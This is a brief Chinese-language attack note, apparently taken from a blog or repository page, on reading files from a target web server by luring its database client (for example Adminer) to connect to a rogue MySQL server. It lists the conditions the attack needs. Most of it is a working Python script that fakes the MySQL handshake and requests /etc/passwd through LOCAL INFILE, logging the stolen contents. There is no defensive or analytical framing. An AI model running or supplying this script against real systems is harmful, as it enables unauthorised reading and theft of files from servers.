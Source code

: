 	https://github.com/Gifts/Rogue-MySql-Server
	客户端必须启用LOCAL-INFILE 
	客户端支持非SSL连接
	目标web存在adminer等可检查数据库连接的脚本。
	攻击机本地运行python构造假mysql服务，使用目标web连接，读取文件。
	#coding=utf-8 
	import socket
	import logging
	logging.basicConfig(level=logging.DEBUG)
	filename="/etc/passwd"
	sv=socket.socket()
	sv.bind(("",3305))
	sv.listen(5)
	conn,address=sv.accept()
	logging.info('Conn from: %r', address)
	conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
	conn.recv(9999)
	logging.info("auth okay")
	conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
	conn.recv(9999)
	logging.info("want file...")
	wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
	conn.sendall(wantfile)
	content=conn.recv(9999)
	logging.info(content)
	conn.close()
